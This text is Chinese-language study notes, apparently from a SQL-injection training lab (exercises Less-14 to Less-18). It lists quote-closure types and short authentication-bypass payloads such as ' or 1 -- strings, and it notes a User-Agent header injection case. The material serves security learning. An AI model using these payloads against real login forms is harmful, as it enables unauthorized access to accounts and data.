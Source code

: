 + 注入方式:字符型

+ 注入Payload：
    ```bash
    admin1"or "1"="1   # 密码任意

    admin1"or 1 --      # 返回数组第一行

    asd"or 1 --         # 刚刚空格 ，  任意帐号密码登陆
    ```

## Less-15

+ 常规输入没有反应 ，但是  输入：`admin' -- ` 和 `123 -- `后可登陆成功 ,用已知用户名，任意密码

![]()

+ 闭合方式：
  `'`
  单引号

+ 注入Payload:



## Less-16

+ 无报错，无回显 

+ 输入 `admin") -- `  任意密码即可登陆 

+ 闭合方式:`")`

+ Payload :
    ```bash
    ") or 1 --+   任意密码  即可登陆成功 
    是否有报错,是否回显
    ```

## Less-17

+ 是否有报错,是否回显

+ 注入方式:

+ 注入Payload

+ 请求头，应该用 # 或者 --空格  注释 ，--+只能在RUL中使用，在URL中# 编码后 带入数据库是 空格 

## Less-18

+ 正常输入 页面显示 UserAgent 信息， 考虑 UA注入
修改UA信息可以正常显示，UA后面夹 单引号， 页面报错，

+ 根据报错信息显示，可知闭合方式：
‘）  字符型注入 
